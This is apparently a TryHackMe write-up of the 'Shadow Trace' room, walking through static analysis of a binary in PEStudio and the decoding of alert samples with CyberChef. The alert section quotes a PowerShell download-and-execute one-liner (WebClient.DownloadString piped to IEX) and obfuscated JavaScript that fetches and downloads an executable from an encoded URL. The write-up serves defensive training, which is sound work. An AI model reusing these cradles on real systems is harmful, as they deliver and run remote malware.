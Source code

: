 ```yaml
---
title: "TryHackMe: Shadow Trace Writeup - Easy"
date: 2025-10-11 23:32:00 +0300
tags: [tryhackme, analysis, javascript, powershell, binary]
categories: [TryHackMe]
image:
  path: /assets/images/2025-10-11-thm-shadowtrace/cover.png
---
```


## Overview
**Shadow Trace** is a relatively simple room that starts with analyzing a binary and then moves on to inspecting alerts containing **PowerShell** and **JavaScript** code. Some basic knowledge of these languages is helpful, along with familiar analysis tools.

**Room Link:** [Shadow Trace](https://tryhackme.com/room/shadowtrace){:target="_blank" rel="noopener noreferrer"}

## Analyzing the Binary
After booting the provided virtual machine, we see a binary called **windows-update.exe** on the desktop. This is the binary we need to analyze. The VM also includes analysis tools in the **DFIR Tools** folder, which is accessible via the desktop shortcut.

### PEStudio
We find **PEStudio** under `DFIR Tools\pestudio`. Launching the app and dragging the binary onto the window we can start the analysis. The first section we see has the answers to questions 1 and 2.

![PEStudio]({{ site.baseurl }}/assets/images/2025-10-11-thm-shadowtrace/ss1.png) 

Next, we move on to question 3:  
> Identify the URL within the file to use as an IOC.

We need to locate a URL inside the binary. Unless it’s obfuscated, it should appear in the **strings** section. After scrolling through the strings, we find a lot that looks interesting. While here, we can also gather answers for other questions since they are also in the strings section.

![Strings]({{ site.baseurl }}/assets/images/2025-10-11-thm-shadowtrace/ss2.png)

Questions 3 and 4 are in plain sight. However, one string looks like it might be encoded. Let’s verify it with **CyberChef**.

![CyberChef URL Flag Decoded]({{ site.baseurl }}/assets/images/2025-10-11-thm-shadowtrace/ss5.png)

CyberChef confirms the string is base64 encoded. Decoding it reveals our flag.

The last question in this section asks:  
> What library related to socket communication is loaded by the binary?

PEStudio’s **libraries** section has this answer. One of the libraries stick out.

![Libraries]({{ site.baseurl }}/assets/images/2025-10-11-thm-shadowtrace/ss3.png)

## Analyzing Alerts
Opening the static site, we see two alerts: one triggered by PowerShell and the other by Chrome. First, we examine the PowerShell alert to extract its URL.

```powershell
(new-object system.net.webclient).DownloadString([Text.Encoding]::UTF8.GetString([Convert]::FromBase64String("aHR0cHM6Ly90cnloYXRtZS5jb20vZGV2L21haW4uZXhl"))) | IEX;
```

This command creates a `System.Net.WebClient` object, downloads the response from a Base64-encoded URL, and pipes it to `IEX` (Invoke-Expression) to execute the script. Using **CyberChef** to decode the Base64 argument reveals the URL.

![CyberChef PowerShell Flag Decoded]({{ site.baseurl }}/assets/images/2025-10-11-thm-shadowtrace/ss6.png)

The remaining questions involve the Chrome alert, which executes JavaScript. Lets prettify the code first to make it easier to read:

```javascript
fetch(
  [
    104, 116, 116, 112, 115, 58, 47, 47, 114, 101, 97, 108, 108, 121, 115, 101,
    99, 117, 114, 101, 117, 112, 100, 97, 116, 101, 46, 116, 114, 121, 104, 97,
    116, 109, 101, 46, 99, 111, 109, 47, 117, 112, 100, 97, 116, 101, 46, 101,
    120, 101,
  ]
    .map((c) => String.fromCharCode(c))
    .join(""),
)
  .then((r) => r.blob())
  .then((b) => {
    const u = URL.createObjectURL(b);
    const a = document.createElement("a");
    a.href = u;
    a.download = "test.txt";
    document.body.appendChild(a);
    a.click();
    a.remove();
    URL.revokeObjectURL(u);
  });
```

The first question is how the URL is decoded. The array of numbers are actually just ASCII characters decimal values, which we can see by the use of `String.fromCharCode()`. With this information we can decode this with **CyberChef** using the "From Decimal" recipe.

![CyberChef JavaScript Flag Decoded]({{ site.baseurl }}/assets/images/2025-10-11-thm-shadowtrace/ss4.png)

Once the URL is obtained, the last step is determining the file name used for download. The script converts the fetched resource into a binary blob, creates a temporary browser-only URL for it, then generates a new `<a>` element with this URL as its `href`. The `download` attribute sets the file name (`test.txt`). The element is appended then clicked to initiate the download.

## Conclusion

This room demonstrates a basic workflow for binary and alert analysis, combining static inspection of binaries with simple PowerShell and JavaScript decoding techniques.

